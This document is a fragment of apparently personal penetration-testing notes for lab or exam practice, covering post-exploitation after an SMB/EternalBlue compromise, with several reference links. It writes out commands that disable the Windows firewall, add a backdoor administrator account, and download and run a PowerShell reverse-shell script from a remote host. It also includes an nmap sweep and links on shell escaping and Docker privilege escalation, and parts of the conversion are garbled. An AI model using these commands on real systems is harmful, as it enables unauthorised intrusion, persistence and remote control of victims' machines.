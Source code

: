 **[If smb has AV (anti virus or firewall active disable AV with this
code :]{.underline}**

**[service_exec(conn, r\'cmd /c netsh firewall set opmode
disable\')]{.underline}**

**[And if rdp active add user and add user to group administrator using
this command :]{.underline}**

**[service_exec(conn, r\'cmd /c net user bill pass
/add\')]{.underline}**

**[service_exec(conn, r\'cmd /c net localgroup administrators bill
/add\')]{.underline}**

**[Then add this command to get reverse shell :]{.underline}**

**[service_exec(conn, r\"cmd /c powershell iex(new-object
net.webclient).downloadstring(\'[http://192.168.119.157/](http://10.0.2.4/test.ps1)Invoke-PowerShellTcp.ps1\')\")]{.underline}**

**[Detail add this article :]{.underline}**

**[<https://redteamzone.com/EternalBlue/>]{.underline}**

[**[https://0xdf.gitlab.io/2019/02/21/htb-legacy.html]{.underline}**](https://0xdf.gitlab.io/2019/02/21/htb-legacy.html)

# GENERATE PASSWORD HASH FOR /ETC/PASSWD

[**[https://ma.ttias.be/how-to-generate-a-passwd-password-hash-via-the-command-line-on-linux/]{.underline}**](https://ma.ttias.be/how-to-generate-a-passwd-password-hash-via-the-command-line-on-linux/)

**[CHECK FRIENDS OF MACHINE]{.underline}**

**[nmap -p port 10.11.1.1-255]{.underline}**

# ESCAPING SHELL :

[**[https://www.sans.org/blog/escaping-restricted-linux-shells/]{.underline}**](https://www.sans.org/blog/escaping-restricted-linux-shells/)

[**[https://oscpnotes.infosecsanyam.in/My_OSCP_Preparation_Notes\--Enumeration\--SSH\--rbash_shell_esacping.html]{.underline}**](https://oscpnotes.infosecsanyam.in/My_OSCP_Preparation_Notes--Enumeration--SSH--rbash_shell_esacping.html)

# 

# DOCKER PRIVILLAGE ESCALATION :

[**[https://www.hackingarticles.in/docker-privilege-escalation/]{.underline}**](https://www.hackingarticles.in/docker-privilege-escalation/)

![](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image39.png){width="6.5in"
height="2.3333333333333335in"}

